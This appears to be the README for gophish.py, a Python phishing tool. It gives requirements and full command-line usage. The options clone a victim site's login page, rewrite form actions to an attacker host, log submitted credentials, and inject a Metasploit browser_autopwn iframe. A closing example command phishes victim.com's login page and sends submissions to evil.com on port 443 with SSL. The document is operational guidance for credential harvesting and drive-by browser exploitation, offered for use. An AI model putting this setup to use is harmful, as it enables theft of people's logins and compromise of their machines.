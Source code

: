 gophish
=======

GoPhish is a phishing script that enables rapid deployment of phishing sites.

Requirements
============
Mechanize
CherryPy
BeautifulSoup

Usage
=====

gophish.py [-h] --phish PHISH --replace REPLACE [--logfile LOGFILE]
                  [--listen LISTEN] [--port PORT] [--ssl]
                  [--sslchain SSLCHAIN] [--sslcert SSLCERT] [--sslkey SSLKEY]
                  [--autopwn AUTOPWN] [--autofill AUTOFILL]
                  [--redirect REDIRECT] [--redirectto REDIRECTTO]
                  [--landing LANDING] [--clickthrough CLICKTHROUGH]
                  [--clickable CLICKABLE] [--useragent USERAGENT]
                  [--sendcookies]

  Automatically setup a phishing site.

  optional arguments:
  
    -h, --help            show this help message and exit
    
    --phish PHISH         the full URL to phish back to the victim (must include
                          http(s)://) (default: None)
    --replace REPLACE     the IP/FQDN to replace FORM actions with (must include
                          http(s):// and final /) (default: None)
    --logfile LOGFILE     log file to store submitted form values (default:
                          phishlog.txt)
    --listen LISTEN       the IP to bind to (default: 0.0.0.0)
    --port PORT           the port to start the listening web server on
                          (default: 80)
    --ssl                 enable SSL on the running port (default: 0)
    --sslchain SSLCHAIN   certificate chain file to use when ssl option is
                          enabled (default: chain.crt)
    --sslcert SSLCERT     certificate file to use to use when ssl option is
                          enabled (default: ssl.crt)
    --sslkey SSLKEY       private key file to use to use when ssl option is
                          enabled (default: ssl.key)
    --autopwn AUTOPWN     Metasploit auxiliary/server/browser_autopwn URL to
                          inject as an iFrame (default: None)
    --autofill AUTOFILL   file to use to autosubmit autocomplete fields
                          (default: None)
    --redirect REDIRECT   redirect requests for this address somewhere else
                          (default: None)
    --redirectto REDIRECTTO
                          redirect requests in the redirect option to this
                          address (full link, must include http(s)://) (default:
                          www.google.com)
    --landing LANDING     redirect to this landing page instead of original site
                          after form is submitted (include full link) (default:
                          None)
    --clickthrough CLICKTHROUGH
                          file to serve up after user enters form credentials on
                          main phish page (default: None)
    --clickable CLICKABLE
                          used in combination with clickthrough, comma separated
                          list of files to serve based on requested name
                          (default: None)
    --useragent USERAGENT
                          file to use to pass a user agent value in the request
                          (default: None)
    --sendcookies         initiate a connection, get the cookies, send cookies
                          back in second connection (default: 1)

  Example: gophish.py --phish https://www.victim.com/login.php --replace
    https://www.evil.com/ --port 443 --ssl --sslchain chain.crt --sslcert ssl.crt
    --sslkey ssl.key
